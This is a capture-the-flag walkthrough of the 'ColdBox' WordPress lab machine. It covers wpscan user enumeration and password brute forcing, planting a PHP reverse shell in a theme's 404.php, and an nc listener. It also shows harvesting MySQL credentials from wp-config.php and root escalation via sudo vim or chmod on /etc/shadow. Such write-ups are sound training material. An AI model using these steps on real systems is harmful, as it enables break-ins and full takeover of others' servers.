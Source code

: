 # 17 - ColdBox (wordpress)

### Enumeration

After enumeration with nmap:

```bash
PORT     STATE SERVICE REASON
80/tcp   open  http    syn-ack
|_http-generator: WordPress 4.1.31
|_http-title: ColddBox | One more machine
4512/tcp open  unknown syn-ack
```

Since its a wordpress site, and we navigate to "/wp-login.php" and get a login page, now we just need valid credentials.

#### Enumerating Valid Users with \[wpscan]

```bash
wpscan --url http://10.10.55.211/ --enumerate u
```

<figure><img src=".gitbook/assets/image (144).png" alt=""><figcaption></figcaption></figure>

#### Enumerating their Passwords

Now we bruteforce for a correct password.

{% code overflow="wrap" lineNumbers="true" %}
```bash
# save the 3 usernames in a users.txt file.
wpscan --url http://10.10.55.211/ --passwords /usr/share/wordlists/rockyou.txt --usernames users.txt
```
{% endcode %}

<figure><img src=".gitbook/assets/image (145).png" alt=""><figcaption></figcaption></figure>

And we got password for "c0ldd", and we logged in successfully.

### Initial Access

We navigate to "Appearance", "Editior" then in the "Twenty fifteen" theme menu, select "404.php", we will replace this with a php reverse shell.

<figure><img src=".gitbook/assets/image (146).png" alt=""><figcaption></figcaption></figure>

After that we set up a listener `rlwrap nc -nvlp 9000`&#x20;

Then navigate to: "[http://10.10.55.211/wp-content/themes/twentyfifteen/404.php](http://10.10.55.211/wp-content/themes/twentyfifteen/404.php)"

Stabilize the shell with: `python3 -c 'import pty;pty.spawn("/bin/bash")'` .

We are in now, going back a bit to the `/var/www/html` dir, we see a lot of files/dirs. The one of interest is the `wp-config.php` file because it usually contains MySQL creds (sometimes though). When we cat the contents, we saw MySQL creds for the "c0ldd" user.

<figure><img src=".gitbook/assets/image (147).png" alt=""><figcaption></figcaption></figure>

Tried authenticating to MySQL with the creds and it worked.

`mysql -h 127.0.0.1 -u c0ldd -p` .

<figure><img src=".gitbook/assets/image (148).png" alt=""><figcaption></figcaption></figure>

```
show databases; # to display all the dbs.
use colddbox; # select a db.
show tables; # display tables for the selected db.
select * from wp-users # dump the info.
```

<figure><img src=".gitbook/assets/image (149).png" alt=""><figcaption></figcaption></figure>

And we got some credentials we can crack, but meanwhile i tried the MySQL creds for "c0ldd" for ssh on port 4512 and it worked.

<figure><img src=".gitbook/assets/image (150).png" alt=""><figcaption></figcaption></figure>

### Priv Esc

Immediately i tried `sudo -l` and found some binaries user c0ldd could execute with sudo privileges. Went to gtfobins and tried "vim" and got root.

### Alternative ways to priv esc

There are 2 other binaries we could leverage to do priv esc:

chmod and ftp.

#### Using \[chmod]

Obviously we could use "chmod" to give ourself permission to access the /etc/shadow file and put our own custom password hash for root account and login as root user.

```
sudo /bin/chmod 777 /etc/shadow # give ourself permission to modify the file.
nano /etc/shadow # replace the root password hash with "c0ldd" pass hash :)
su root # use c0ldd password.
# and we are root.
```

#### Using \[ftp]

<figure><img src=".gitbook/assets/image (151).png" alt=""><figcaption></figcaption></figure>

Room Done..
